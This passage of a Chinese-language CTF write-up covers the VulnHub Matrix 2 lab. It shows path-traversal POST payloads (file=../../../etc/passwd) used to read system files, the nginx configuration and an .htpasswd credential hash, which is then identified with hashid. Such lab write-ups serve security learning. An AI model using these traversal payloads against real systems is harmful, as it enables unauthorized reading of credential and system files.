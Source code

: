 

查看上述文件未发现任何内容，查看源代码发现注释内容

```php
<!-- Error file parameter missing..!!! -->
```

根据提示应该是需要一个file参数，怀疑存在文件读取，果断尝试一波

```php
https://192.168.217.135:12322/file_view.php
POST提交file=/../../../../../../../../etc/passwd
```

成功查看到passwd文件

![1552903232061](F:\学习资料\github\vulnhub-writeup\matrix2-Unknowndevice64\assets\1552903232061.png)

因为这个web应用是nginx的，因此尝试读取默认的nginx的配置文件

```php
https://192.168.217.135:12322/file_view.php
POST提交file=../../../../../../../../../etc/nginx/sites-avaliable/default
```

配置文件内容如下：

```php
server { listen 0.0.0.0:80; root /var/www/4cc3ss/; index index.html index.php; include /etc/nginx/include/php; } server { listen 1337 ssl; root /var/www/; index index.html index.php; auth_basic "Welcome to Matrix 2"; auth_basic_user_file /var/www/p4ss/.htpasswd; fastcgi_param HTTPS on; include /etc/nginx/include/ssl; include /etc/nginx/include/php; } 
```

![1552903487763](F:\学习资料\github\vulnhub-writeup\matrix2-Unknowndevice64\assets\1552903487763.png)

看到存在/var/www/p4ss/.htpasswd 文件，尝试查看

```php
https://192.168.217.135:12322/file_view.php
POST提交file=../../../../../../../../../var/www/p4ss/.htpasswd
```

发现了nginx的用户名和密码

```php
Tr1n17y:$apr1$7tu4e5pd$hwluCxFYqn/IHVFcQ2wER0
```

![1552903597541](F:\学习资料\github\vulnhub-writeup\matrix2-Unknowndevice64\assets\1552903597541.png)

分析一下上述密码

```shell
hashid
$apr1$7tu4e5pd$hwluCxFYqn/IHVFcQ2wER0

Analyzing '$apr1$7tu4e5pd$hwluCxFYqn/IHVFcQ2wER0'
[+] MD5(APR) 
[+] Apache MD5
```
